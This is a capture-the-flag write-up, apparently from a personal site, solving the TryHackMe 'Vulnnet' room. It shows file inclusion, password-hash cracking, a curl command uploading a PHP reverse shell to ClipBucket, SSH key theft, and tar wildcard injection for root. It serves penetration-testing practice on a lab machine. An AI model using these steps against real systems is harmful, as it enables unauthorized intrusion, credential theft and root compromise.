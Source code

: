 ```yaml
---
title: "Vulnnet TryHackMe"
collection: publications
permalink: /publication/Vulnnet
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-07
venue: '04-27'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/vulnnet.png)

**Link :** [Vulnnet](https://tryhackme.com/room/vulnnet1)

---

## Enumeration : 

* You will have to add the machine IP with domain vulnnet.thm to your */etc/hosts* file.

* Let's scan the target :

```bash
# nmap -sC -sV -T4 -Pn 10.10.15.220
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-07 05:59 EST
Nmap scan report for vulnnet.thm (10.10.249.21)
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
|_  256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: VulnNet
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

=> The scan reveals 2 open ports.

* Let's navigate to http://vulnnet.thm/

![vulnnet2](/images/vulnnet2.png)

* Inspecting the source code of the main page, we see 2 Javascripts file in /js directory.

![vulnnet3](/images/vulnnet3.png)

![vulnnet4](/images/vulnnet4.png)

* The first file reveals a subdomain, let's add it to */etc/hosts*

![vulnnet5](/images/vulnnet5.png)

* The second file reveals that the index.php page accepts a referer parameter.

![vulnnet6](/images/vulnnet6.png)

* Navigating to http://broadcast.vulnnet.thm prompts us with an authentication login screen, but since we don't any credentials we can do nothing with it.

* Let's check if the referer parameter is vulnerable to Local File Inclusion (LFI)

![vulnnet7](/images/vulnnet7.png)

* As you can see, we are able to read the content of /etc/passwd

* From the scan, we know that we're dealing with apache web server, by default the web config file is in /etc/apache2/sites-enabled/000-default.conf

> https://devm.io/open-source/apache2-install-config-169923

![vulnnet8](/images/vulnnet8.png)

* Bingo, we found the location of the .htpasswd that contains the credentials for http://broadcast.vulnnet.thm

![vulnnet9](/images/vulnnet9.png)

* We found the credentials, but we have to crack the password.


```bash
# john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761*******   (developers)     
1g 0:00:00:28 DONE (2023-04-07 11:09) 0.03498g/s 75617p/s 75617c/s 75617C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

* After you navigate to http://broadcast.vulnnet.thm and enter the credentials, you should see this page.

![vulnnet10](/images/vulnnet10.png)

* As you can see the broadcast subdomain is running *ClipBucket* which is an open source video sharing.

* Let's search if there are any known exploits:

![vulnnet11](/images/vulnnet11.png)

* So the exploit is an unauthenticated file upload, so we can upload a reverse shell.

* The payload should be something like this :

```bash
# curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761*******
```

> shell.php: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* The output reveals the file directory.

* Start your netcat listener and navigate to http://broadcast.vulnnet.thm/files/photos/your_directory

![vulnnet12](/images/vulnnet12.png)

* After you open the file in your browser, you will receive a connection.

![vulnnet13](/images/vulnnet13.png)

## Horizontal Privilege Escalation :

* If you check the */var/backups* directory you will find a file called ssh-backup.tar.gz

![vulnnet14](/images/vulnnet14.png)

* Open a python web server :

```bash
python -m http.server
```

* Download the file to your local machine:

```bash
wget http://X.X.X.X:8000/ssh-backup.tar.gz
```

* Uncompress the archive :

```bash
tar -xf ssh-backup.tar.gz
```

* Now we have the private key but we don't have a username, so let's check the home directory

![vulnnet17](/images/vulnnet17.png)

* We still have a problem because the ssh privte key is protected with a passphrase

![vulnnet15](/images/vulnnet15.png)

* Use ssh2john tool and try to brute force the passphrase with john

![vulnnet16](/images/vulnnet16.png)

* Now we can login using ssh.

![vulnnet18](/images/vulnnet18.png)


## Vertical Privilege Escalation :

* You will find a cronjob run by root every two minutes

![vulnnet19](/images/vulnnet19.png)

* Let's read the *backupsrv.sh*

![vulnnet20](/images/vulnnet20.png)

* As you can see the script is backing up all the files in the Documents folder using tar, the is a wildcard vulnerability.

>https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c

* The exploit :

![vulnnet21](/images/vulnnet21.png)

* Start a netcat listener and wait 2 minutes to get the root shell

![vulnnet22](/images/vulnnet22.png)





